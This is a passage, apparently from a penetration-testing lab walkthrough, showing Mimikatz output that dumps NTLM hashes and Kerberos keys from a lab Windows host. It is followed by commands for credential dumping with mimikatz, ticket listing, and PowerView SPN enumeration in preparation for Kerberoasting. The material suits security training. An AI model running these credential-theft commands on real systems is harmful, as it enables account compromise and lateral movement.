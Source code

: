 ```powershell-session
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :

Authentication Id : 0 ; 996 (00000000:000003e4)
User Name         : DEV01$
Domain            : INLANEFREIGHT
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname